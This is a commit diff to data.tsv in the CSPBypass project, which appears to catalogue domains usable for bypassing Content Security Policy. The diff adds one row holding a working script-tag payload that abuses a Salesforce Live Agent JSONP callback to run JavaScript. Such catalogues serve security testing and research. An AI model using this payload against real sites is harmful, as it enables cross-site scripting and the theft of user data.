

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added d.la3-c2-ia5.salesforceliveagent.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 73: d.la3-c2-ia5.salesforceliveagent.com | <script src="https://d.la3-c2-ia5.salesforceliveagent.com/chat/rest/EmbeddedService/EmbeddedServiceConfig.jsonp?org_id=00D40000000MvPv&EmbeddedServiceConfig.configName=Support_Brandfolder_Chat_Agents&callback=alert&version=48"></script>
```
